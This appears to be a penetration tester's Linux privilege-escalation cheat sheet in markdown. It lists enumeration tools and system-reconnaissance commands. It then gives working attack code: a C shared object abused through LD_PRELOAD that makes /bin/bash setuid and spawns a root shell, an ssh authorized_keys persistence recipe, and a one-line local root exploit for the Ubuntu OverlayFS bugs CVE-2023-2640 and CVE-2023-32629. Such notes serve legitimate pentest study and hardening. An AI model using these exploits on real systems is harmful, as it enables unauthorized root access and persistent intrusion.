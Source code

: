 ```yaml
---
title: Linux
---
```


# Linux Privilege Escalation
## Enum tools
- [Lin Peas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [pspy](https://github.com/DominicBreuker/pspy)
- [Lin Enum](https://github.com/rebootuser/LinEnum)
- [RustScan](https://github.com/RustScan/RustScan)

## Resources
- [gtfobins](https://gtfobins.github.io/gtfobins/ssh/)
- [hacktricks (linux)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses)
- [hacktricks (windows)](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

## Enum
### Basics

```bash
whoami                                         # Current logged user
id                                             # Current user groups
hostname                                       # Machine's domain name
cat /etc/os-release                            # OS version
uname -a                                       # Kernel version
cat /proc/version                              # Kernel version
lscpu                                          # Additional host info
ifconfig                                       # Network interfaces
ip addr                                        # Network interfaces
netstat -rn                                    # Routing table
route                                          # Routing table
arp -a                                         # Arp table (other hosts)
lkblk                                          # Drives and shares
cat /etc/fstab                                 # Mounts
df -h                                          # Mounted file systems
cat /etc/fstab | grep -v "#" | column -t       # Unmounted file systems

sudo -l                                        # What can we run as root?
echo $PATH                                     # Is path misconfigured?
env                                            # Environment variables
cat /etc/shells                                # Available shells
cat /etc/passwd                                # Existing users
cat /etc/group                                 # Existing groups
getent group sudo                              # Which users are in the sudo group?
```

### Looking for writable directories

```bash
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```

### Looking for writable files

```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

## Things to look for
- Commands that contain credentials like `mysql -ptest123` get leaked in `ps`, use `pspy`
- Search for hashes/credentials, often in backups or configs

## Misc notes

### .so loading
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("chmod u+s /bin/bash");
    system("/bin/bash -i");
}
```

```bash
gcc -fPIC -shared -o extension.so extension.c -nostartfiles
```

```bash
bash -p
```

### ssh private key

```bash
# victim
ssh-keygen -t rsa -b 4096
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys

# Host
## copy key to host
chmod 600 /path/to/id_rsa_custom
ssh -i /path/to/id_rsa_custom user@target_machine_ip
```

## CVEs

### CVE-2023-2640 | CVE-2023-32629

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
# Or
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'"
```

